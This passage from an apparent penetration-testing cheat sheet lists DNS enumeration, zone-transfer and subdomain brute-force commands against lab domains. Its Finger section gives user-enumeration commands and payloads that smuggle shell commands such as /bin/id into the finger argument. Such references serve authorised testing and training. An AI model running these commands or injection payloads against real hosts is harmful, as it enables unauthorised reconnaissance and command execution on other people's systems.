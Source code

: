 | `dnsenum --dnsserver 10.129.14.128 --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb`                                                          | Many different tools can be used for this, and most of them work in the same way. One of these tools is, for example DNSenum. Also we can perform automatic dns enum using this tool                 |

```
dnsenum <DOMAIN>
```

```
dnsrecon -d <DOMAIN>
```

### Zone transfer

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

### DNS brute force

```
https://github.com/blark/aiodnsbrute
```

### Attacking DNS

| **Command**                                                      | **Description**                                                                                                                                                                                                               |
| ---------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`              | Perform an AXFR zone transfer attempt against a specific name server.                                                                                                                                                         |
| `fierce --domain zonetransfer.me`                                | Tools like Fierce can also be used to enumerate all DNS servers of the root domain and scan for a DNS zone transfer                                                                                                           |
| `subfinder -d inlanefreight.com -v`                              | Brute-forcing subdomains.                                                                                                                                                                                                     |
| `./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt` | An excellent alternative is a tool called Subbrute. This tool allows us to use self-defined resolvers and perform pure DNS brute-forcing attacks during internal penetration tests on hosts that do not have Internet access. |
| `host support.inlanefreight.com`                                 | DNS lookup for the specified subdomain.                                                                                                                                                                                       |

---

## FINGER - 79

### User enumeration

```
finger @<IP>
finger <USER>@<IP>
```

### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

---